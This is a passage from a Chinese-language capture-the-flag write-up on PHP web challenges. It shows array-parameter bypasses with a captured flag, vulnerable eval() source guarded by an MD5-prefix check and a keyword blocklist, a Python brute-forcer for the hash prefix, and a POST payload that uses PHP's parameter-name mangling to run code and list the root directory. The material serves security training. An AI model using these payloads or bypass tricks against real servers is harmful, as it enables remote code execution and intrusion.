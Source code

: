 

**Level 5**：在这一级别，用户需要提供一些POST参数，并检查这些参数是否都不包含字母和数字。如果通过此检查，用户将能够查看 "/flag" 文件的内容。

同样数组绕过



/?key1=QNKCDZO&key2=240610708&key5=2029q&key4[]=1

POST：key3[]=1&flag5=?

flag{3793e633-1582-4d65-8311-b4f2f369d60d}



#### R!C!E!

```php
<?php
highlight_file(__FILE__);
if(isset($_POST['password'])&&isset($_POST['e_v.a.l'])){
    $password=md5($_POST['password']);
    $code=$_POST['e_v.a.l'];
    if(substr($password,0,6)==="c4d038"){
        if(!preg_match("/flag|system|pass|cat|ls/i",$code)){
            eval($code);
        }
    }
}
```

哈希碰撞解password

```python
import hashlib
def crack(pre):
    for i in range(0, 999999):
        if (hashlib.md5(str(i).encode("UTF-8")).hexdigest())[0:6] == str(pre):
              print(i)          
              break
crack("c4d038")
```

password=114514

php自动把名称中第一个不合法字符转化为下划线

使用正则表达式来检查变量 `$code` 中是否包含某些关键字，如 "flag"、"system"、"pass"、"cat" 和 "ls"。

先用scandir查看目录

```
POST：password=114514&e[v.a.l=var_dump(scandir('/'));
```

回显：

```
array(24) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(4) "flag" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(3) "opt" [14]=> string(4) "proc" [15]=> string(4) "root" [16]=> string(3) "run" [17]=> string(4) "sbin" [18]=> string(3) "srv" [19]=> string(8) "start.sh" [20]=> string(3) "sys" [21]=> string(3) "tmp" [22]=> string(3) "usr" [23]=> string(3) "var" } 
```

